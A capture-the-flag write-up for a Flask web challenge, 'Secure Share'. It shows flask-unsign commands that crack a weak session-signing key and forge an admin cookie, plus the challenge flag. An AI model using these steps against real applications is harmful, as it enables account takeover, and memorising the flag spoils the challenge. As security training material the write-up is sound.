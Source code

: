 # Secure Share

## Category  
Web

## Description  
Welcome to SecureShare, TechCorp's internal employee directory.  
Access your profile and view other employees' profiles securely.

Challenge files: `source.zip`  
Access the server: http://secure_share.challenges.cybersecuritychallenge.be

## Scenario  
TechCorp uses a Flask-based web app to allow employees to view their profiles. Authentication is managed via cookies signed with a secret key. But something about the way the sessions are handled doesn’t seem very... secure.

## Write-up  
After launching the challenge, I noticed that the session was handled using Flask cookies. Here's an example of the session cookie:

```
eyJ1c2VyX2lkIjo2fQ.Z9QNyw.yuxTmc84bXUUQf1a67138P5-U-Y
```

This is a **Flask session cookie**, which contains:
- The payload (base64 JSON-encoded)
- A timestamp
- A signature (HMAC)

To forge this cookie, I needed the **secret key** used to sign it. I tried guessing common keys like `secret`, `supersecretkey`, etc.

I used [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) to brute-force or decode the cookie:

```bash
flask-unsign -u -c "eyJ1c2VyX2lkIjo2fQ.Z9QNyw.yuxTmc84bXUUQf1a67138P5-U-Y"
```

Output:
```
Found secret key: supersecretkey
```

With the secret key in hand, I forged a new cookie for the admin account (user_id 3 is usually the admin):

```bash
flask-unsign -s -c "{'user_id': 3}" --secret "supersecretkey"
```

I then replaced my browser cookie with the forged one and refreshed the page.

The profile page now showed the **admin profile**, and the flag was revealed.

## Solve script  
No script needed — I solved it using the command line:

```bash
# Unsigned to retrieve the key
flask-unsign -u -c "<original_cookie>"

# Sign a new cookie with admin privileges
flask-unsign -s -c "{'user_id': 3}" --secret "supersecretkey"
```

## Flag  
```
CSC{ID0R_1s_N0t_S0_S3cur3_4ft3r_4ll}
```
